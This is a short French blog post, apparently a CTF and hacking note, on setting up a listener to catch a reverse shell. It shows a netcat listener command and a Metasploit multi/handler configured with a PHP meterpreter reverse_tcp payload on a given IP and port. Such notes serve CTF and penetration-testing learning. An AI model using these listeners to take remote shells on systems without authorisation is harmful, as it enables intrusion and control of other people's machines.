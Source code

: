 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse shell', 'Se mettre sous écoute sur un port', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour des besoins plus avancés, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mette sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
     
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mette sous écoute sur le port 1234 et l'IP 10.23.201.17 en utilisant le payload php
      msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST 10.23.201.17
      set LPORT 1234
      run
  </code></pre> <br/>
     
---------------------------------------------

			
